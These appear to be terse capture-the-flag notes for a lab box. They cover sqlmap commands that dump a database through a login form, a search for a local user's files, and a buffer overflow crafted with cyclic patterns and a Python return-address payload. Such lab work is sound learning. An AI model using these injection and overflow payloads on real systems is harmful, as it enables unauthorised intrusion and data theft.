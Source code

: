 sqlmap -u url --forms
sqlmap -u http://10.10.33.24/administrator.php --dump --data="username=admin&password=admin"  -> to get the data from the dbs

--dbs -> to get info about databases
-D databasename --tables -> to get tables in that database
-D databasename -T tablename --dump -> dump data from the table

check /etc/passwd to check whether there are accounts 

cd /
find / -user pingu 2>/dev/null

_use this to investigate ELF executable files_
readelf -s filename - to read the symbols(read the address for shell function)

_use this code for cyclic_
#!/bin/python3
from pwnlib.util.cyclic import cyclic_gen
g = cyclic_gen()
print(g.get(50))

_check using cyclic output_
echo -ne "aabaskj" | ./filename -> entering cyclic pattern into the binary file to see where the crash is
dmesg -> see where it crashed
readelf -s filename | grep shell -> to get the shell function address

_inject code_
python -c 'print "A"*44 + "\xcb\x84\x04\x08"'
python -c 'import struct;print "A"*44 + struct.pack("<I",0x080484cb)'


